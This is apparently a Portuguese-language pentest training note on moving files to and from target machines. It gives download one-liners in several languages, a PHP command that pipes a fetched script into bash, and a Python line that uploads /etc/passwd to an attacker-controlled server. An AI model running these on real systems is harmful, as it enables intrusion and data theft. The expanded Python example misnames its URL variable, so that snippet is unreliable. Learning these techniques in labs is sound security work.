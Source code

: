 
## Pyhton

Python é uma linguagem de programação popular. Atualmente, a versão 3 é suportada, mas podemos encontrar servidores onde a versão 2.7 do Python ainda existe. `Python`pode executar one-liners a partir de uma linha de comando do sistema operacional usando a opção `-c`. Vamos ver alguns exemplos:
#### Python 2 - Baixar
```shell-session
NycolasES6@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Baixar
```shell-session
NycolasES6@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP
É comum encontrar diferentes linguagens de programação instaladas nas máquinas alvo, especialmente em distribuições Linux, onde linguagens como Python, PHP, Perl e Ruby são frequentemente disponíveis.

No Windows, embora seja menos comum, também é possível encontrar linguagens instaladas e usar aplicativos padrão como `cscript` e `mshta` para executar JavaScript ou VBScript. O JavaScript também pode ser executado em hosts Linux.

Com cerca de 700 linguagens de programação disponíveis, qualquer uma delas pode ser usada para criar código que baixe, carregue ou execute instruções no sistema operacional. Esta seção fornecerá exemplos usando algumas dessas linguagens comuns.

#### Download do PHP com File_get_contents()
```shell-session
NycolasES6@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

Uma alternativa para `file_get_contents()`and `file_put_contents()`é o [módulo fopen()](https://www.php.net/manual/en/function.fopen.php) . Podemos usar esse módulo para abrir uma URL, ler seu conteúdo e salvá-lo em um arquivo.

#### Download do PHP com Fopen()
```shell-session
NycolasES6@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

Também podemos enviar o conteúdo baixado para um pipe, semelhante ao exemplo sem arquivo que executamos na seção anterior usando cURL e wget.

#### PHP Baixe um arquivo e envie-o para o Bash
```shell-session
NycolasES6@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Outras linguagens
`Ruby`e `Perl`são outras linguagens populares que também podem ser usadas para transferir arquivos. Essas duas linguagens de programação também suportam a execução de one-liners a partir de uma linha de comando do sistema operacional usando a opção `-e`.

#### Ruby - Baixar um arquivo
```shell-session
NycolasES6@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### Perl - Baixar um arquivo
```shell-session
NycolasES6@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript
JavaScript é uma linguagem de script ou programação que permite implementar recursos complexos em páginas da web. Assim como outras linguagens de programação, podemos usá-lo para muitas coisas diferentes.

O código JavaScript a seguir é baseado [neste](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, e podemos baixar um arquivo usando-o. Criaremos um arquivo chamado `wget.js`e salvaremos o seguinte conteúdo:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Podemos usar o seguinte comando em um prompt de comando do Windows ou em um terminal do PowerShell para executar nosso código JavaScript e baixar um arquivo.

#### Baixar um arquivo usando JavaScript e cscript.exe
```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript
[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") é uma linguagem de script ativo desenvolvida pela Microsoft que é modelada no Visual Basic. O VBScript foi instalado por padrão em todas as versões desktop do Microsoft Windows desde o Windows 98.

O seguinte exemplo de VBScript pode ser usado com base nisso [.](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs) Criaremos um arquivo chamado `wget.vbs`e salvaremos o seguinte conteúdo:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

Podemos usar o seguinte comando em um prompt de comando do Windows ou terminal do PowerShell para executar nosso código VBScript e baixar um arquivo.

#### Baixar um arquivo usando VBScript e cscript.exe
```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Operações de upload usando Python3
Se quisermos fazer upload de um arquivo, precisamos entender as funções em uma linguagem de programação específica para executar a operação de upload. O [módulo Python3 requests](https://pypi.org/project/requests/) permite que você envie requisições HTTP (GET, POST, PUT, etc.) usando Python. Podemos usar o código a seguir se quisermos fazer upload de um arquivo para nosso Python3 [uploadserver](https://github.com/Densaugeo/uploadserver) .

#### Iniciando o módulo Python uploadserver
```shell-session
NycolasES6@htb[/htb]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Carregando um arquivo usando um Python One-liner
```shell-session
NycolasES6@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Vamos dividir esta frase em várias linhas para entender melhor cada parte.

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

Podemos fazer o mesmo com qualquer outra linguagem de programação. Uma boa prática é escolher uma e tentar construir um programa de upload.



























































